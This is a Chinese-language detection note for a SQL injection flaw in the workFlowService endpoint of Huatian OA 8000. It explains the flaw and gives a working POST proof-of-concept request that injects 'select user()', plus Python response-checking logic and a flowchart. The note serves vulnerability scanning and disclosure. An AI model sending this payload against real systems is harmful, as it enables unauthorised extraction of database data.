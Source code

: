 # 华天动力OA 8000 workFlowService SQL注入漏洞（huatian-oa8000-sqli）检测说明

## 漏洞简介

华天动力OA 8000版本的workFlowService接口存在SQL注入漏洞，攻击者可通过该接口注入恶意SQL语句，获取数据库敏感信息。

## 影响范围

- 产品：华天动力OA 8000
- CVE编号：无（社区编号 huatian-oa8000-sqli）
- 危害等级：Critical

## 漏洞原理

/OAapp/bfapp/buffalo/workFlowService接口未对传入的SQL语句进行有效过滤，攻击者可通过POST请求注入任意SQL语句，造成信息泄露。

## 利用方式与攻击流程

1. 攻击者构造带有SQL注入payload的POST请求，payload中直接传入如`select user()`的SQL语句。
2. 服务器端未对参数进行安全处理，直接拼接执行SQL。
3. 数据库执行恶意SQL，返回特征数据。
4. 攻击者分析响应内容，确认漏洞存在。

## 探测原理与流程

### 探测请求的构造

```http
POST /OAapp/bfapp/buffalo/workFlowService HTTP/1.1
Host: target.com

<buffalo-call>
<method>getDataListForTree</method>
<string>select user()</string>
</buffalo-call>
```

- payload中`<string>select user()</string>`用于判断是否存在注入点。

### 预期响应与交互

- 响应体需包含`<buffalo-reply>`和`<string>user()`，且Content-Type为`text/xml`。
- HTTP状态码为200。

### 判定逻辑

```python
def is_vulnerable(response):
    if response.status_code == 200 and 'text/xml' in response.headers.get('content-type', '') and '<buffalo-reply>' in response.text and '<string>user()' in response.text:
        return True
    return False
```

### 检测流程Mermaid图

```mermaid
graph TD
    A[发送带注入payload的POST请求] --> B[接收HTTP响应]
    B --> C{响应体含buffalo-reply和user()?}
    C -- 否 --> F[非漏洞]
    C -- 是 --> D{Content-Type为text/xml且状态码为200?}
    D -- 否 --> F
    D -- 是 --> G[判定存在SQL注入漏洞]
```

## 参考链接

- [PeiQi文库-华天动力OA 8000 workFlowService SQL注入漏洞](https://github.com/PeiQi0/PeiQi-WIKI-Book/blob/main/docs/wiki/oa/%E5%8D%8E%E5%A4%A9OA/%E5%8D%8E%E5%A4%A9%E5%8A%A8%E5%8A%9BOA%208000%E7%89%88%20workFlowService%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md) 